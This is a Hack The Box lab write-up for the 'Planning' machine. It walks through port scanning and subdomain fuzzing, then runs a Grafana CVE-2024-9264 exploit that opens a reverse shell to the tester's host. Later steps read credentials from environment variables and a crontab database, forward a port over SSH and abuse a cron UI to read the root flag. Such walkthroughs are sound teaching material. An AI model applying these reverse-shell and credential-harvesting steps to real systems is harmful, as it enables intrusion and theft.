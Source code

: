- - - 
created : 11-08-2025 

Tags : #easy

Released on 10 May 2025 (Season 8)
- - - 
# Machine Information

As is common in real life pentests, you will start the Planning box with credentials for the following account: `admin / 0D5oT70Fq13EvB5r`
# Recon
## Rustscan - Nmap

First we add the target IP to our /etc/hosts file, then we use [Rustscan](../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) with `--` :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning]
└─$ rustscan -a planning.htb -- -A 

Open 10.10.11.68:22
Open 10.10.11.68:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.24.0 (Ubuntu)

```
# Enumeration
## HTTP (80)

Main page :
![Pasted image 20250811192857.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250811192857.png)
### DirSearch

We'll use [Dirsearch](../../../3%20-%20Tags/Hacking%20Tools/Dirsearch.md) to start [Enumeration](../../../3%20-%20Tags/Hacking%20Concepts/Enumeration.md) on the [Website](../../../3%20-%20Tags/Hacking%20Concepts/Website.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning]
└─$ dirsearch -u http://planning.htb 

[19:39:57] Starting: 
[19:40:00] 301 -  178B  - /js  ->  http://planning.htb/js/                  
[19:40:05] 200 -   12KB - /about.php                                        
[19:40:15] 200 -   10KB - /contact.php                                      
[19:40:16] 301 -  178B  - /css  ->  http://planning.htb/css/                
[19:40:21] 301 -  178B  - /img  ->  http://planning.htb/img/                
[19:40:22] 403 -  564B  - /js/                                              
[19:40:23] 403 -  564B  - /lib/                                             
[19:40:23] 301 -  178B  - /lib  ->  http://planning.htb/lib/      

Task Completed                 
```

Nothing interesting.
### Fuff

We use [FFuf](../../../3%20-%20Tags/Hacking%20Tools/FFuf.md) for [Subdomain](../../../3%20-%20Tags/Hacking%20Concepts/Subdomain.md) enum :

```bash                                                                                                 
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning]
└─$ ffuf -w ./fuzzDicts/subdomainDicts/main.txt - -H 'Host: FUZZ.planning.htb ' -u http://planning.htb  -fs 178 -c  

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 36ms]
```

We can add it to our /etc/hosts file and login in the page with the given creds :

![Pasted image 20250811223718.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250811223718.png)
# Exploit

[CVE-2024-9264](../../../3%20-%20Tags/CVEs/CVE-2024-9264.md) https://github-com.translate.goog/z3k0sec/CVE-2024-9264-RCE-Exploit?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en

Usage :

```bash
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.174 --reverse-port 1337
```

First we start our [Netcat](../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning/CVE-2024-9264-RCE-Exploit]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
```

Now we run the command and we have a root shell :

```
# whoami
root
# ls
LICENSE
bin
conf
public
rev.php
```

We can see we are in a Docker environment, we find creds for `enzo` :

```bash
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
OLDPWD=/home
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=ls
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=  'HTB{{REDACTED_PASSWD}}'
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/
```
## SSH (22)

We can access on [SSH](../../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with new credentials for the user flag :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning/CVE-2024-9264-RCE-Exploit]
└─$ ssh enzo@planning.htb
enzo@planning.htb password: 

enzo@planning:~$ ls
user.txt
enzo@planning:~$ cat user.txt
 HTB{{REDACTED_FLAG}}
```
# Privilege Escalation
## LinPEAS

We can start [Privilege Escalation](../../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) running [LinPEAS](../../../3%20-%20Tags/Hacking%20Tools/LinPEAS.md) on the target machine, first we copy the script via ssh :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning/CVE-2024-9264-RCE-Exploit]
└─$ scp linpeas.sh enzo@planning.htb:/tmp/
enzo@planning.htb password: 
linpeas.sh                                                      100%  131KB 319.0KB/s   00:00
```

Now we run it :

```bash
enzo@planning:/tmp$ ./linpeas.sh 


[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#internal-open-ports               
Active Internet connections (servers and established)                                             
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:36149         0.0.0.0:*               LISTEN      -                   
tcp        0      0 10.10.11.68:36038       10.10.16.37:4433        ESTABLISHED 7881/uCEnp          
tcp        0      0 172.17.0.1:34608        172.17.0.2:3000         FIN_WAIT2   -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0   3896 10.10.11.68:22          10.10.14.174:51720      ESTABLISHED -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.11.68:35328       1.1.1.1:53              ESTABLISHED 21287/bash          

[+] Looking for tables inside readable .db/.sqlite files (limit 100)
 -> Extracting tables from /var/lib/command-not-found/commands.db (limit 20)                                               
                                                                                                                           
 -> Extracting tables from /var/lib/fwupd/pending.db (limit 20)
                                                                                                                           
 -> Extracting tables from /var/lib/PackageKit/transactions.db (limit 20)
                                                                                                                           
 -> Extracting tables from /opt/crontabs/crontab.db (limit 20)
```

the file **/opt/crontabs/crontab.db** can have credentials or open a new attack vector so i opened it :

```
enzo@planning:/$ cat /opt/crontabs/crontab.db                                                                              

{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P  HTB{{REDACTED_PASSWD}} /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

We have a password, but it's not for the root user on the system. 
## Port Forwarding

[LinPEAS](../../../3%20-%20Tags/Hacking%20Tools/LinPEAS.md) also found open ports which can have **local hosted Websites**, to be able to access that we have to do port forwarding :

```bash                                                                                                                          
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning/CVE-2024-9264-RCE-Exploit]
└─$ ssh -L 8000:127.0.0.1:8000 enzo@planning.htb -N

enzo@planning.htb's password: 
```

Now we can access, we have a Cronjobs UI so we can create a new Cronjob :

![Pasted image 20250811232659.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250811232659.png)

this command will copy the text in the root flag **/root/root.txt** to a file named root in the /tmp folder, after creating the script all we got to do is to click **Run now button** and check on [SSH](../../../3%20-%20Tags/Hacking%20Concepts/SSH.md) :

```
enzo@planning:/tmp$ cat root 
 HTB{{REDACTED_FLAG}}
```

Pwned !!